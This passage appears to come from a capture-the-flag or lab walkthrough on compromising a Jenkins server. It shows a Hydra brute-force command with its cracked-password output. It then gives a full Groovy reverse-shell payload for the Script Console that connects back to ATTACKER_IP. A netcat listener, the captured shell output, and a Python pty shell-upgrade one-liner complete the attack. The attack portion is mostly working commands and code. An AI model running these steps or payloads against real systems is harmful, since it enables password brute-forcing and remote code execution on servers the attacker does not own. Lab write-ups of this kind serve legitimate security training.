 hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j\_acegi\_security\_check:j\_username=^USER^\&j\_password=^PASS^\&from=%2F\&Submit=Sign+in:Invalid" -T 64 -vV

\[...snip...]

\[8080]\[http-post-form] host: localhost login: admin password: spongebob

\[...snip...]

* \-l specifies username.
* \-P specifies password wordlist to use.
* \-s specifies port to connect to.
* \-T run 64 tasks in parallel.
* \-vV verbose mode and show login+pass for each attempt.

#### **Use vulnerable feature of Jenkins server to get reverse shell ()** <a href="#id-8zbmrf6ag1l7" id="id-8zbmrf6ag1l7"></a>

* "Manage Jenkins" > "Tools and Actions" section > "Script Console".

Type in an arbitrary[ Groovy script](http://www.groovy-lang.org/) and execute it on the server. Useful for trouble-shooting and diagnostics. **Create listener**

nc -lvnp 8044

**Upload reverse shell to Jenkins server**

* Use Pure Groovy/Java Reverse Shell[ revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to create a reverse shell session back to the attacker machine.

String host="ATTACKER\_IP";

int port=8044;

String cmd="bash";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){\}};p.destroy();s.close();

* "Run" to execute script **Reverse shell caought by listener**

Connection from TARGET\_IP 39982 received!

whoami

jenkins

id

uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

**Upgrade shell**

python -c 'import pty; pty.spawn("/bin/bash")'

#### **Search for interesting text files ()** <a href="#t6pnn5n5j0hb" id="t6pnn5n5j0hb"></a>

